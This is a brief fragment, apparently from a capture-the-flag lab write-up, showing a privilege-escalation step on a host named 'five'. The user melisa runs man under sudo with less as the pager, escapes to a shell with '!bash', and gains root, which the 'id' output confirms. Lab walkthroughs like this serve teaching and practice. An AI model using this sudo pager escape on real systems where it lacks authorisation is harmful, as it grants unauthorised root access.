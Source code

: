 ## P6
```bash
# melisa@five:~$ sudo /bin/man -P /usr/bin/less man
sudo /bin/man -P /usr/bin/less man
WARNING: terminal is not fully functional
-  (press RETURN)!bash
!bbaasshh!bash
# root@five:/home/melisa# id
id
uid=0(root) gid=0(root) groups=0(root)
root@five:/home/melisa#
```